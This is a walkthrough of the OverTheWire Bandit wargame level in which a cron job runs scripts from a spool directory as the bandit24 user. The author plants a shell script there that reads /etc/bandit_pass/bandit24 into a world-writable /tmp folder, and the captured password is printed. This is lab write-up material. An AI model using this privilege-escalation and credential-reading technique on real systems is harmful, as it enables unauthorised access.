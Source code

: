 ***A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.***

Same drill as before:

**`bandit23@bandit:~$ cd /etc/cron.d`**  
**`bandit23@bandit:/etc/cron.d$ ls`**  
*`cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root  e2scrub_all  otw-tmp-dir  sysstat`*  
**`bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24`**  
*`@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`*  
*`* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`*  
**`bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh`**  
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Looking at the shell script, it appears to execute and then delete all scripts within the specified directory (/var/spool/$myname/foo); again, in this instance, the cron job executes as bandit24, so $myname will also be assigned a value of bandit24. 

**Theoretically, if we can manage to inject our own simple shell script into the directory specified within the cronjob's referenced shell script....**

**`bandit23@bandit:/etc/cron.d$ cd /tmp/rajh`**  
**`bandit23@bandit:/tmp/rajh$ vim raj_bandit24.sh`**  

Within Vim:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/rajh/bandit24_pass
```

**`bandit23@bandit:/tmp/rajh$ chmod 777 raj_bandit24.sh`**  
**`bandit23@bandit:/tmp/rajh$ cp raj_bandit24.sh /var/spool/bandit24/foo`**  

Now that our own shell script has been injected into the target directory, let's trigger the original shell script within the cronjob. But before that, we will need to change the permissions of our temp working directory as well, so that it can be written to by anyone:

**`bandit23@bandit:/tmp/rajh$ chmod 777 /tmp/rajh`**  
**`bandit23@bandit:/tmp/rajh$ cp /etc/cron.d/cronjob_bandit24 /tmp/rajh`**  
**`bandit23@bandit:/tmp/rajh$ chmod 777 cronjob_bandit24`**  
**`bandit23@bandit:/tmp/rajh$ ./cronjob_bandit24`**  

Give the cronjob a minute to run...

**`bandit23@bandit:/tmp/rajh$ ls`**  
*`bandit24_pass  cronjob_bandit24  raj_bandit24.sh`*  
**`bandit23@bandit:/tmp/rajh$ cat bandit24_pass`**  
*`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`*
